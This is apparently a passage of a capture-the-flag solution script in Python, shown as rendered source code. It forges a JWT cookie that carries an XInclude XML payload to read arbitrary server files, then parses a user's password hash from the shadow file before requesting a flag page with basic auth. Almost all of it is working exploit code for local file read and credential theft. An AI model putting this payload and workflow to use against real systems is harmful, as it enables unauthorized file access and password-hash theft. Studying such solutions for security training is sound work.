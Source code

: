 ```python
def forgeJWTToReadFile(jwtSecret, filePath):
    xml = f'<data><username><xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="{filePath}" parse="text"/></username></data>'
    forgedJWT = forgeJWT(jwtSecret, xml)
    return forgedJWT


def assertWelcomeHasHint(givenJWT):
    url = URL + '/welcome'

    cookies = {'appdata': givenJWT}
    response = requests.get(url, cookies = cookies)

    if '/app/app.py' not in response.text:
        print(f'Hint was not in {url}')
        sys.exit(1)


def readRemoteFile(jwtSecret, filePath):
    url = URL + '/welcome'
    forgedJWT = forgeJWTToReadFile(jwtSecret, filePath)

    cookies = {'appdata': forgedJWT}
    response = requests.get(url, cookies = cookies)

    # print(response.status_code, response.text)

    precedingText = '<div>Welcome '
    if precedingText not in response.text:
        print('1 Unexpected response reading remote file:', response.text)
        sys.exit(1)

    precedingTextIndex = response.text.index(precedingText)

    trailingText = '</div>'
    if trailingText not in response.text:
        print('2 Unexpected response reading remote file:', response.text)
        sys.exit(1)

    trailingTextIndex = response.text.index(trailingText)

    fileContentHtml = response.text[precedingTextIndex+len(precedingText):trailingTextIndex]
    fileContent = html.unescape(fileContentHtml)
    return fileContent


def getLinuxPasswordHash(shadowFileContent):
    prefix = 'flaguser:'
    if prefix not in shadowFileContent:
        print('Cannot find flaguser in shadow file:', shadowFileContent)
        sys.exit(1)

    flaguserIndex = shadowFileContent.index(prefix)
    tailContent = shadowFileContent[flaguserIndex+len(prefix):]
    colonIndex = tailContent.index(':')
    passwordHash = tailContent[0:colonIndex]
    return passwordHash


def getFlag(linuxPassword):
    url = URL + '/secret-welcome-935734'
    response = requests.get(url, auth=HTTPBasicAuth('flaguser', linuxPassword))

```